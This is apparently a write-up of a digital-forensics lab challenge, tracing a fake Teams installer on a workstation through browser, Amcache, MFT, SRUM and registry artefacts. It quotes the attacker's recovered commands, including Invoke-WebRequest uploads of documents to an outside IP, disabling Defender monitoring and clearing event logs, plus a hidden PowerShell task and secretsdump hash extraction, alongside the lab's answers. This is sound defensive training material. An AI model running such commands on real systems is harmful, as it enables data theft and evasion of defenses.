SillyEli

Eli, a recent addition to the IT team, is eager to settle into his new role. Due to the company's flexible "Bring Your Own Device" (BYOD) policy, which applies to everyone except IT administrators, Eli receives a newly prepared PC from Metushelah, the senior IT administrator, as part of the IT team's secure device protocol.
Eli's first priority is to install essential applications that will enable him to connect seamlessly with the rest of the team. He begins setting up the system and downloading the necessary software. After a few days on the job, Eli starts noticing something unusual: every so often, a PowerShell window flashes on his screen, disappearing almost instantly, too quickly to read any of its contents.
Assuming it's just a minor glitch, Eli continues with his work. However, as the unexpected PowerShell pop-ups persist, Eli decides to consult Metushelah. Metushelah suspects these PowerShell flashes could indicate malicious activity.
To ensure there are no security breaches, he conducts a forensic acquisition of Eli's PC and forwards it to the Incident Response team for further analysis. Now, as a member of the IR team, your mission is to investigate Eli's workstation.
Task 1
Identify the specific time the malware was downloaded in UTC.
I'll start off by checking what browsers Eli has available on his system.
Chrome, Edge, and Mozilla. Going by the size, Chrome's History DB is the biggest, followed by Edge. As for Mozilla's places.sqlite DB, I could not find it, so I'll assume Eli has not used it at all.
I'll investigate Chrome's downloads first, as the History DB is the biggest.
SQLECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Users\Eli\AppData\Local\Google\Chrome\User Data\Default\History" --csv chromesqlout

The last thing Eli has downloaded via Chrome is a Firefox installer... During the earlier search for the Firefox DB, I looked into the AppData\Local directory, which contained empty profiles...

But the DB was located under AppData\Roaming instead! The size itself confirms that this DB is full of data, so I'll do the exact same thing I just did with Chrome.
SQLECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Users\Eli\AppData\Roaming\Mozilla\Firefox\Profiles\sq1wae60.default-release\places.sqlite" --csv firefoxsqlout

There is only one file in the Firefox download history.

Task 2
Which domain name was the file downloaded from?
Let's correlate the discovered data with the visit history from the same database.

The file was downloaded from an Amazon S3 bucket. The visit count being 0 just means that this was the first time ELi had visited that bucket. One more interesting thing is the visit type, which is TRANSITION_REDIRECT_TEMPORARY
Looking through the web for what that could mean, I found a resource that contains useful information and queries for the Firefox DB.
https://gist.github.com/olejorgenb/9418bef65c65cd1f489557cfc08dde96
From this, I can tell that the user got redirected to the bucket temporarily, which then resulted in the malware's download.
Regardless, the answer to question 2 will be filesuneedtodownload.s3.eu-north-1.amazonaws.com

Task 3
Identify the SHA-1 hash of the malware.
There are 3 ways I can think of off the top of my head to get the SHA-1 hash of a known malware.
- Browse the Amcache.hve file
- Look for Windows Defender's action logs
- Try to extract the malware and chuck it into VirusTotal
I'll start with the 1st option. If the malware was executed on the system, it will have its own entry in the hive.
As for what Amcache is, it's a system registry hive used to store metadata about executed programs, installed applications, and loaded drivers. This is a goldmine for forensics because it allows us to see full paths of executables, provides loaded drivers and DLLs, timestamps, and, most importantly, in the current case, SHA-1 hashes for comparison against public malware databases like VT.
AmcacheParser.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\AppCompat\Programs\Amcache.hve" --csv amcacheout
I'll filter for the name Teams to find the malicious entry quicker.

The answer to question 3 will be de733beed85f39605fcdea42dddee190506424f2

Task 4
It looks like malicious tool attempts to download a secondary tool during execution — find and provide the full URL.
The executable's presence in the Amcache hive 100% confirms that it was indeed executed. If whatever it tried to download is a well-known tool, there is a good chance that Windows Defender caught it and mitigated the danger.

There are quite a few files in the support directory. I'll focus on the entire logfile, since I know the malware's name.

The malware's execution almost immediately catches Defender's attention, and AMSI (Anti-Malware Scan Interface) quickly hooks into the process to scan for suspicious actions.

An attempt to download Mimikatz was made and quickly foiled by Defender. The original malware remained unharmed, though, from what it looks like.
It's also worth remembering that certutil was used to download the archive, which could help me in future searches if more files were downloaded.

Task 5
What is the name of the batch file created on the system as part of the malware execution?
For this task, I will parse the $MFT and $UsnJournal journals. For the filtering, I will use the malware's execution time, desired file extensions(.bat), and the update reason(FileCreate).
MFTECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\$Extend\$J" -m "C:\Users\malware\Desktop\Acquisition\C\$MFT" --csv journalout
My filter for Timeline Explorer will be like this:
[Update Timestamp] >= #2024-11-06 01:58:14# And Contains([Update Reasons], 'FileCreate') And Contains([Extension], '.bat')

The batch file in question is TeamsUpdater.bat

Task 6
What was the runtime duration of the malware? (Duration in Ms)
To get the runtime duration of the malware, I will use the SRUDB (System Resource Usage Database). This DB tracks data like app activity, network usage, and more. The nice thing about this one is that it persists for a longer period than other logs, making it quite valuable from an analyst's perspective.
SrumECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\SRU\SRUDB.dat" -r "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SOFTWARE" --csv srumdbout

This command results in the following files being created:
04/01/2026 08:05 PM 211,174 20260402030527_SrumECmd_AppResourceUseInfo_Output.csv
04/01/2026 08:05 PM 172,942 20260402030527_SrumECmd_AppTimelineProvider_Output.csv
04/01/2026 08:05 PM 392 20260402030527_SrumECmd_EnergyUsage_Output.csv
04/01/2026 08:05 PM 914 20260402030527_SrumECmd_NetworkConnections_Output.csv
04/01/2026 08:05 PM 51,681 20260402030527_SrumECmd_NetworkUsages_Output.csv
04/01/2026 08:05 PM 1,577 20260402030527_SrumECmd_PushNotifications_Output.csv
04/01/2026 08:05 PM 10,541 20260402030527_SrumECmd_vfuprov_Output.csv
From which I will look at the AppTimeline file first.

The duration value tells us for how long the malware was running on the system in milliseconds. The answer to that is 60003

Task 7
Locate the local URL cache and identify the full URL the threat actor used to download an additional tool during the attack. Include the complete URL with filename and extension.
"Local URL cache" could mean either a cache from one of the browsers, a DNS cache, or a bunch of other things as well. I know that the attacker wanted to transfer files onto the system via certutil earlier, so I'll look into the CryptNetURLCache directory.
C:\Users\malware\Desktop\Acquisition\C\Users\Eli\AppData\LocalLow\Microsoft\CryptnetUrlCache\MetaData
The MetaData directory contains metadata of files downloaded via certutil, such as URLs they were downloaded from.

There is a single HTTPS URL in the cached metadata, which corresponds to a file-sharing website. The attacker seems to have downloaded... KAPE? This looks a bit unusual, but it might just be a prepared malicious archive named like that to look legitimate to analysts.

Task 8
What is the name of the scheduled task that the attacker created for persistence?
The KAPE archive is actually just a legitimate download... I confirmed this by correlating the name from metadata with files in content, and renaming the proper file to kape.zip.
Back to question 8, the usual spot I look into for schtasks is the Tasks directory under the system root.

This directory does not exist in this case, but there is a different way to check for schtasks on a system.
RECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SOFTWARE" --kn "Microsoft\Windows NT\CurrentVersion\Schedule\Taskcache\Tasks"
RECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SOFTWARE" --kn "Microsoft\Windows NT\CurrentVersion\Schedule\Taskcache\Tree"
The difference between these 2 keys is that the first one shows GUIDs, while the latter shows actual named tasks.

This TeamsUpdater task has its last write time matching the attacker's timestamps. This will be the answer to question 8.

Task 9
What is the unique GUID associated with the malicious scheduled task?
I'll read further into the malicious task.
RECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SOFTWARE" --kn "Microsoft\Windows NT\CurrentVersion\Schedule\Taskcache\Tree\TeamsUpdater"

The GUID in question is {A4F7ED3E-E7CD-4539-8E79-D73B568FC298}

Task 10
Identify the process or command executed by the malicious scheduled task.
Knowing the GUID from the previous task will come in handy here, as more information is stored under the Tasks subkey under the very same GUIDs.
RECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SOFTWARE" --kn "Microsoft\Windows NT\CurrentVersion\Schedule\Taskcache\Tasks\{A4F7ED3E-E7CD-4539-8E79-D73B568FC298}"

The data I want is encoded within these RegBinary blobs. I've done a similar decoding process while solving [Whisper] a few weeks ago, but I don't feel like doing that manually right now. I'll run RegistryExplorer with the SOFTWARE hive loaded, and I'll navigate to the GUID.

RegistryExplorer automatically decodes the Actions blob, but struggles with the Triggers. That's not too relevant right now, but it would be cool to know what fires off the task.
Regardless, the command executed by the schtask is powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Eli\AppData\Local\Temp\Teams.ps1

Task 11
Identify the attacker's IP address and port.
I'll take a look at the $MFT journal, looking for the .ps1 file specifically.

The in use flag indicates that the file was being used at the time of the journal's capture. It is also relatively small, so I'll try to recover its contents with MFTECmd.exe.
MFTECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\$MFT" --de 315567-1

A base64 string is decoded, decompressed(important), read as ASCII, and passed to IEX to execute whatever it decodes to. I'll create a CyberChef recipe in accordance with the PS snippet, so that I can see what the encoded string truly is.

This is a reverse shell command! It connects to 192.168.137.132:443, creates a loop to read commands from the attacker, executes said commands, and sends back results to the attacker. Port 443 is often used for revshells because it can blend well with normal HTTPS traffic.

Task 12
What is the name of the sensitive file exfiltrated by the threat actor?
Since the revshell comes from a PowerShell process, the commands executed might have been logged in the user's PowerShell console history.
C:\Users\malware\Desktop\Acquisition\C\Users\Eli\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_History.txt
whoami
hostname
net user
net user Eli
findstr /s /i /m "mimikatz" "C:\Users\Eli\Documents\*"
Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring
findstr /s /i /m "password" .docx.doc .pdf.pptx
findstr /s /i /m "sensitive" .docx.doc .pdf.pptx
Get-ChildItem -Path C:\ -Include *.pdf, *.doc, *.docx -Recurse -ErrorAction SilentlyContinue
cd C:\Users\Eli\Documents
ls
type "Meeting Notes.txt"
Invoke-WebRequest -Uri "http://91.240.118.162:8080/" -Method Post -InFile "C:\Users\Eli\Documents\Employees_Contact_Info.pdf" -ContentType "application/octet-stream";
Invoke-WebRequest -Uri "http://91.240.118.162:8080/" -Method Post -InFile "C:\Users\Eli\Documents\IT_Collaboration_Platform.pptx" -ContentType "application/octet-stream";
Remove-Item -Path "C:\Users\Eli\Documents\Employees_Contact_Info.pdf" -Force
Remove-Item -Path "C:\Users\Eli\Documents\IT_Collaboration_Platform.pptx" -Force
ls
Get-EventLog -LogName * | ForEach-Object { Clear-EventLog -LogName $_.Log }
Two files were exfiltrated in total.

Task 13
Based on the contents of the document, what is Metushelah’s email address?
This question led me on quite a journey. The files were deleted and were not present in the $MFT journal, meaning I could not just recover them like that. I then moved on to the thumbcache files, which also did not provide me with anything.
After abusing the method of elimination, I was left with the Windows Search Index DB at C:\ProgramData\Microsoft\Search\Data\Applications\Windows\Windows.edb
https://www.nirsoft.net/utils/ese_database_view.html

I started with the PropertyStore, as it was the biggest table in the DB. I used the PDF's full filename to find matching entries, until eventually...

An entry with a different DateModified value had the AutoSummary field filled with the test below:
Company Employees Information First Name Last Name Employee ID Username Email Address Role Seraphina Thorne 19035287 sthorne sthorne36@privmail.net Support Specialist [...] AI Researcher Metushelah Makorelah 57054553 mkorelah balikvar@laffa.com IT Administratorog?`
Metushelah's email address is visible in the field.

Task 14
At what time did the attacker clear the Windows event logs? (in UTC)
The event I'm looking for is 1102 (Event log cleared). I'll use EvtxECmd to parse the Security.evtx file, which will then be passed into Timeline Explorer.
EvtxECmd.exe -f "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\winevt\logs\Security.evtx" --csv evtxout

There is only a single fitting event, which happened on 2024-11-06 02:16:50

Task 15
What is the name of the legitimate tool used by the threat actor to acquire the SAM and SYSTEM hives?
Just as with task 13, this question stumped me for a good while. I looked through the event logs for process creation events tied to executables like reg.exe, looked for Volume Shadow copies, and could not find an answer...
...That is, until I remembered that earlier, the attacker had downloaded KAPE for reasons unknown... Up to this point! KAPE is a legitimate tool used to gather forensic data... Which means that it WILL gather registry hives as well!

Task 16
Identify the password belonging to Eli’s account that were exfiltrated by the attacker to their C2 server.
Easy task for the end. I'll run secretsdump.py against the local hives to extract hashes of every user on the machine.
python secretsdump.py -system "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SYSTEM" -sam "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SAM" -security "C:\Users\malware\Desktop\Acquisition\C\Windows\System32\config\SECURITY" local

Now all that's left to do is to crack the hash with hashcat.

eli | blackrose

Solved!